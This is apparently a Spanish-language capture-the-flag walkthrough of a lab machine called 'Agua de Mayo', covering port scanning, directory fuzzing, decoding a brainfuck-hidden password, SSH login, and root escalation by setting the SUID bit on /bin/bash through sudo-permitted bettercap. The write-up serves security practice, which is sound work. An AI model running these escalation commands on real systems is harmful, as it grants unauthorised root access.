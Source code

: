 # Agua de Mayo
![image](https://github.com/user-attachments/assets/d4ee9a17-fcbe-41a2-ae97-464c3736755e)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sSCV -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sSCV`: Realiza un escaneo SYN, de versiones y vulnerabilidades.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
![image](https://github.com/user-attachments/assets/ed50cfd3-edc0-44cd-82a7-3674d6df2be8)

En la página principal vemos la página por defecto de Apache, por lo que vamos a hacer fuzzing con **gobuster**. Anque si miramos el código fuente de la página y bajamos hata el final nos encontramos con un comentario.

```
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```
Es un mensaje codificado en **brainfuck** y si vamos a [dcode](https://www.dcode.fr/brainfuck-language) podremos descifraslo fácilmente.
![image](https://github.com/user-attachments/assets/1c963813-2e64-4947-a5dd-0f45f7dd3808)

Una vez tenemos una posible contraseña, miramos el resultado del fuzzin a ver si encontramos algo.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
![image](https://github.com/user-attachments/assets/1a88b909-9812-4fad-934e-9e35d10cdd50)

Encontramos el directorio **/images** y dentro de él una imagen llamada **agua_ssh.jpg**.

![image](https://github.com/user-attachments/assets/3ffae8f6-13dc-46e5-803c-42efaec93eb3)

Después de buscar si encontramos algo dentro de la imágen, vemos que no hay nada pero que el nombre podría indicarnos un que el usuario de **ssh** sea **agua**. Lo comprobamos con la contraseña y estamos dentro de la máquina.

## Explotación.

```bash
ssh agua@172.17.0.2
```
![image](https://github.com/user-attachments/assets/6044a823-212c-427f-a4af-06b2cc4b3c32)

## Escalada de privilegios.

Comprobamos si hay algún archivo que podamos utilizar con permisos de root.
```bash
sudo -l
```
Vemos que podemos ejecutar **/usr/bin/bettercap** como **root**. Lo ejecutamos y encontramos en la ayuda que podemos ejecutar un comando.

![image](https://github.com/user-attachments/assets/dd3cf928-7197-4a20-85d2-9452b10ad972)

Aprovechamos para cambiar los permisos a la **bash** y así ejecutarla como privilegios.

```bash
! chmod u+s /bin/bash
```
Salimos, y ejecutamos el siguiente comando para optener la bash como **root**.

```bash
/bin/bash -p
```
![image](https://github.com/user-attachments/assets/e42da890-b5cf-497b-aa4c-70011c2c296e)





